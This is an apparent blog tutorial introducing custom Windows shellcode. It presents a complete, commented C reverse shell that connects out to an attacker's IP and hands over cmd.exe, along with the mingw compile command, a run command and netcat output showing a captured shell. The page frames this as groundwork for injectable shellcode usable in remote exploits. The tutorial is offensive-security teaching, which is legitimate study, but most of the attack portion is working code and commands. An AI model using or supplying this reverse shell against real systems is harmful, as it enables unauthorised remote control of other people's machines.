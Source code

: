 [Home](https://plackyhacker.github.io)

# Writing Custom Shellcode, Introduction

## Assumptions

It is assumed that you know what a reverse shell is and you have a basic ability to read the flow of code. It is not necessary to understand the Win32 API calling conventions, or assembly language - this will be explained in later articles.

## Introduction

X86, and why...

## Anatomy of a Reverse Shell

Let's begin by looking at a basic reverse shell coded in C.

```c
include <winsock2.h>
#pragma comment(lib, "w2_32")

int main(int argc, char *argv[])
{
  // exit if args aren't provided (local ip/port)
  if(argc < 3) exit(0);

  // A pointer to the WSADATA data structure that is to receive details of the Windows Sockets implementation.
  WSADATA wsaData;
  	
  // If no error occurs, WSASocket returns a descriptor referencing the new socket.
  SOCKET Winsock;
  	
  // structure that specifies the address to which to connect.
  struct sockaddr_in laddr;

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
  // The WSAStartup function initiates use of the Winsock DLL by a process, here we use v2.2
  WSAStartup(MAKEWORD(2,2), &wsaData);
  	
  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
  // The WSASocket function creates a socket that is bound to a specific transport-service provider.
  Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2
  // set up a socket addr structure for the local host (attacking machine)
  laddr.sin_family = AF_INET;
  laddr.sin_addr.s_addr = inet_addr(argv[1]);
  laddr.sin_port = htons(atoi(argv[2]));

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
  // The WSAConnect function establishes a connection to another socket application (e.g., the netcat listener)
  WSAConnect(Winsock,(SOCKADDR*)&laddr, sizeof(laddr), NULL, NULL, NULL, NULL);
  
  if (WSAGetLastError() == 0) {
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    // Specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
    STARTUPINFO ini_processo;
    
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
    // Contains information about a newly created process and its primary thread.
    PROCESS_INFORMATION processo_info;
      
    // https://www.tutorialspoint.com/c_standard_library/c_function_memset.htm
    // this function basically sets the ini_processo structure to all 0s
    memset(&ini_processo, 0, sizeof(ini_processo));
      
    // simply specifies the size of the structure
    ini_processo.cb=sizeof(ini_processo);
    // If this flag is specified when calling one of the process creation functions, the handles must be inheritable
    ini_processo.dwFlags=STARTF_USESTDHANDLES;
    
    // here we redirect the stdin, stdout, and stderr handles to the socket handle
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
    // Creates a new process and its primary thread. The new process runs in the security context of the calling process.
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    // exit
    exit(0);
  } else {
    // exit
    exit(0);
  }
}
```

From a high level the code does four things by using the Win32 APIs:

- `WSAStartup` - Initialises the winsock DLL for use.
- `WSASocket` - Creates a socket object which we can use to connect to a `netcat` listener on an attacking machine.
- `WSAConnect` - Establishes a connection to our `netcat` listener.
- `CreateProcess` - Creates a new `cmd.exe` process and redirects the stdin, stdout, and stderr streams to the winsock object.

The C code can be compiled on a Linux machine using `mingw32`:

```bash
i686-w64-mingw32-g++ -std=c++11 shell.c -o shell.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

We can then run the portable executable on Windows:

```powershell
shell.exe 172.16.245.129 4444
```

This establishes a reverse shell back to the `netcat` listener:

```bash
nc -nvlp 4444 
listening on [any] 4444 ...
connect to [172.16.245.129] from (UNKNOWN) [172.16.245.128] 57270
Microsoft Windows [Version 10.0.19044.1766]
(c) Microsoft Corporation. All rights reserved.

C:\Users\John\Desktop>
```

This is ok, but it has a few problems. It is compiled as a PE (portable executable) file, this means it needs to be dropped to disk and executed, which is not desirable. It cannot be used in a remote exploit, such as a buffer overflow. For this we need shellcode that can be injected into an existing process and does not rely upon the structure of a PE file to execute.

When writing shellcode we need to carry out the same four tasks to establish a reverse shell, but we need to program it in assembly language, which presents us with a different set of problems.

[Home](https://plackyhacker.github.io)
